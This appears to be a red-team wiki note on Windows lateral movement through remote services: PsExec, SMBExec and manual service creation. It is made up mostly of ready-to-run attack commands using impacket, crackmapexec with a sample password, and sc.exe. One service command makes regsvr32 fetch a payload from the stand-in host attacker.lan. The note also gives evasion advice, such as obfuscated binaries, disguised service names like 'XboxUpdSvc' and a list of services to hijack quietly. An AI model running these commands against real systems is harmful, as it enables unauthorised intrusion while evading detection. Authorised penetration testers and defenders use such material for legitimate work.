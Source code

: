 ```yaml
---
title: Lateral Movement trough Services
---
```


[[notes/lateral-movement/index]] by using the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/) protocol to create or update services and execute commands in system context.

Classic PsExec.
The typically flow is to upload an executable over SMB, create a service that points to the executable, start the service and send input and output over a SMB named pipe.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-psexec -k -no-pass srv01.corp.local
    ~~~

    With slightly improved OpSec ([source](https://twitter.com/_bin_Ash/status/1621627726321827840)).

    ~~~ bash
    impacket-psexec -file ./RemCom.exe -service-name WindowsTelemetry -remote-binary-name telemetry.exe -k -no-pass srv01.corp.local
    ~~~

    An obsufcated version of [RemCom](https://github.com/kavika13/RemCom) can be compiled with [RemComObf.sh](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb).

    **Warning:** Old versions create a service that allows unauthenticated remote command execution and can be exploited with [psexec_noinstall.py](https://github.com/MzHmO/psexec_noinstall) ([source](https://twitter.com/bugch3ck/status/1626963208811470848)).

=== "[psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)"
    ~~~ bat
    .\psexec.exe -accepteula -i -s \\srv01.corp.local powershell.exe
    ~~~

> **OpSec:** PsExec is very noisy. You should prefer a different technique.

A variation of PsExec is SMBExec.
It works by creating a service that executes a command, writes the output to a file and then retrieves the output over SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-smbexec -k -no-pass -shell-type powershell srv01.corp.com
    ~~~

    **OpSec:** When `-mode server` is specified the command output is directly written to the attackers SMB share.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.com -u jdoe -p 'passw0rd' --exec-method smbexec -x 'whoami /all'
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

Upload a file and create a service manually.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-services -k -no-pass ws01.corp.local create -name XboxUpdSvc -display 'Xbox Updater' -path 'C:\Windows\Temp\beacon.exe'
    impacket-services -k -no-pass ws01.corp.local change -name XboxUpdSvc -start_name 'NT Authority\System'
    impacket-services -k -no-pass ws01.corp.local start -name XboxUpdSvc
    ~~~

=== "builtin"
    ~~~ bat
    sc.exe \\srv01.corp.local create XboxUpdSvc binpath= "C:\Windows\System32\regsvr32.exe /s /n /u /i:http://attacker.lan/setup.exe scrobj.dll"
    sc.exe \\srv01.corp.local start XboxUpdSvc
    ~~~

> **OpSec:** Modify the command of an existing service or overwrite the binary of an service to avoid detections based on remote service creation.

Builtin services that can be modified relatively safe:

~~~
icssvc
lfsvc
PerfHost
XblAuthManager
XblGameSave
XboxGipSvc
XboxNetApiSvc
~~~

Untested tools:

- [scshell](https://github.com/mr-un1k0d3r/scshell), modifies an existing service
- [NimExec](https://github.com/frkngksl/NimExec)

References:

- [The Defender’s Guide to Windows Services](http://web.archive.org/web/20230122191559/https://scribe.rip/@specterops/the-defenders-guide-to-windows-services-67c1711ecba7)
